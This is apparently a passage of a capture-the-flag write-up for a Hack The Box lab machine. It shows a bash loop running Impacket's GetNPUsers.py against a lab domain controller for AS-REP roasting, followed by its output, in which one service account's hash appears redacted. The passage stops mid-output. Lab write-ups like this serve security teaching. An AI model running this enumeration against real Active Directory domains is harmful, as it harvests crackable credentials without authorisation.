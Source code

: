 ```bash
for i in $(cat users.txt); do GetNPUsers.py -no-pass htb.local/${i} -dc-ip 10.10.10.161; done
```
- Output:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for Administrator
/home/n_emperor/.local/bin/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for krbtgt
/home/n_emperor/.local/bin/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for sebastein
/home/n_emperor/.local/bin/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for lucinda
/home/n_emperor/.local/bin/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for svc-alfresco
/home/n_emperor/.local/bin/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
<Hash-Redacted>
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for andy
/home/n_emperor/.local/bin/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for mark
/home/n_emperor/.local/bin/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for santi
```